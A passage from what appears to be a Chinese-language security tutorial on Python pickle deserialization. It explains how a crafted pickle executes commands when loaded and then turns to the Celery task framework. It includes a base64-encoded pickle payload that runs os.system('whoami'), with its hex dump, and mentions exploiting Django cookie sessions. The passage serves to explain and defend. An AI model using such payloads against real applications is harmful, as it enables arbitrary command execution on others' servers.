 运行得到编码后的序列化数据：

```
Y3Bvc2l4CnN5c3RlbQpwMAooUyd3aG9hbWknCnAxCnRwMgpScDMKLg==
```

这里需要主要的是 os.system(‘whoami’) 这个过程不是在序列化过程执行的，而是将这个过程以结构化的数据存于了序列化数据中，这里可以看一下二进制序列化数据：

```
➜  demo echo -n "Y3Bvc2l4CnN5c3RlbQpwMAooUyd3aG9hbWknCnAxCnRwMgpScDMKLg==" | base64 -D | xxd
0000000: 6370 6f73 6978 0a73 7973 7465 6d0a 7030  cposix.system.p0
0000010: 0a28 5327 7768 6f61 6d69 270a 7031 0a74  .(S'whoami'.p1.t
0000020: 7032 0a52 7033 0a2e                      p2.Rp3..
➜  demo
```

数据都是以 Python pickle 序列化数据结构进行整合的，具体底层协议实现可参考官方文档。

对上面的序列化数据使用 unserializer.py 进行反序列化操作时，会触发类重构操作，从何执行 os.system(‘whoami’)：

[![](https://p1.ssl.qhimg.com/t016aaecbf3f8be84bd.png)](http://www.mottoin.com/89644.html/4-174)

历史上框架或者应用由于 Python 反序列化问题导致的任意命令执行并不少见，如 Django 低版本使用了 pickle 作为 Session 数据默认的序列化方式，在设置了使用 Cookie 进行 Session 数据存储的时候，会使得攻击者直接构造恶意 Cookie 值，触发恶意的反序列化进行任意命令执行；又一些程序可接受一串序列化数据作为输入，如 SQLMAP 之前的 –pickled-options 运行参数就可以传入由 pickle 模块序列化后的数据。虽然官方有对 pickle 模块进行安全声明，指明了不要反序列化未受信任的数据来源，但是现实应用逻辑繁杂，常会有这样的数据可控的点出现，也是不太好避免的。

<br>

**分布式框架 Celery**

回顾完 Python 序列化的问题，这时候转过来看一下 Celery 这个分布式框架。

**1. 使用框架进行简单的任务下发**

Celery 借助消息队列中间件进行消息（任务）的传递，一个简单利用 Celery 框架进行任务下发并执行的例子：

```
# celery_simple.py
from celery import Celery
app = Celery('demo', broker='amqp://192.168.99.100//', backend='amqp://192.168.99.100//')
@app.task
def add(x, y):
    return x + y
```

Celery 推荐使用 RabbitMQ 作为 Broker，这里直接在 192.168.99.100 主机上开启 RabbitMQ 服务，然后在终端使用 celery 命令起一个 worker：

```
celery worker -A celery_simple.app -l DEBUG
```

然后另起一个 ipython 导入 celery_simple 模块中的 add() 函数，对其进行调用并获取结果：

```
In [1]: from celery_simple import add
In [2]: task = add.apply_async((4, 5))
In [3]: task.result
Out[3]: 9
```
